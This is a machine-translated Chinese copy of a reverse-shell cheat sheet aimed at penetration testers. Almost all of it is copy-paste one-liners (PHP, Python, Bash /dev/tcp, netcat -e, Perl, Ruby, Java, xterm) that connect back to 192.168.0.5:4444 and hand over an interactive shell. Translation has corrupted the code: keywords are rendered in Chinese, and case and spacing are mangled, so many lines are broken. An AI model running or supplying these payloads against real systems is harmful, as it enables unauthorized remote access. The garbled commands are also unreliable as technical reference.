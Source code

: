 # 反向外壳备忘单 2019

> 原文：<https://kalilinuxtutorials.com/reverse-shell-cheat-sheet/>

如果不可能添加新帐户/ SSH 密钥/。rhosts 文件并登录后，您的下一步很可能是返回一个反向 shell 或将一个 shell 绑定到 TCP 端口。本页讨论的是前者。

如果您足够幸运，在渗透测试中发现了一个命令执行漏洞，那么很快您就会想要一个交互式 shell。

您创建反向 shell 的选择受到目标系统上安装的脚本语言的限制——尽管如果您做好了适当的准备，您也可以上传一个二进制程序。

所示的例子是为类似 Unix 的系统定制的。如果您将“/bin/sh -i”替换为“cmd.exe”，下面的一些示例应该也可以在 Windows 上运行。

下面的每一种方法都旨在成为你可以复制/粘贴的一行程序。因此，它们很短，但可读性不强。

**也可阅读-[reload . sh:重新安装，恢复&通过 SSH 擦除你的系统，无需重启](https://kalilinuxtutorials.com/reload-sh/)**

**Php :**

PHP-r ' $ sock = fsockopen(" 192 . 168 . 0 . 5 "，4444)；exec("/bin/sh-I& 3 2 > & 3 ")；"

**Python** :

python -c '导入套接字、子进程、OS；s=socket.socket(socket。AF_INET，socket。SOCK _ STREAM)；s . connect(" 192 . 168 . 0 . 5 "，4444))；os.dup2(s.fileno()，0)；os.dup2(s.fileno()，1)；os.dup2(s.fileno()，2)；p=subprocess.call(["/bin/sh "，"-I "])；'

**痛击**:

bash-I > &/dev/TCP/192 . 168 . 0 . 5/4444 0 > & 1

**网猫:**

nc -e /bin/sh 192.168.0.5 4444

**Perl :**

perl -e '使用套接字；$i="192.168.0.5 ";$ p = 4545socket(S，PF_INET，SOCK_STREAM，getprotobyname(" TCP "))；if(connect(S，sockaddr_in($p，inet _ aton($ I))){ open(STDIN，" > & S ")；open(STDOUT，" > & S ")；open(STDERR，" > & S ")；exec("/bin/sh-I ")；};'

**红宝石:**

ruby-r socket-e ' f = TCP socket . open(" 192 . 168 . 0 . 5 "，4444)。to _ I；exec sprintf("/bin/sh-I& % D2 > & % d "，f，f，f)'

**Java :**

r = runtime . get runtime()
p = r . exec(["/bin/bash "，-c "，" exec 5<>/dev/TCP/192 . 168 . 0 . 5/4444；猫< & 5 |边读边行；do \ $ line 2>5>5；done"] as String[])
p.waitFor()

**xterm :**

xterm-显示 192.168.0.5:4444

[**Download**](https://github.com/ismailtasdelen/reverse-shell-cheatsheet)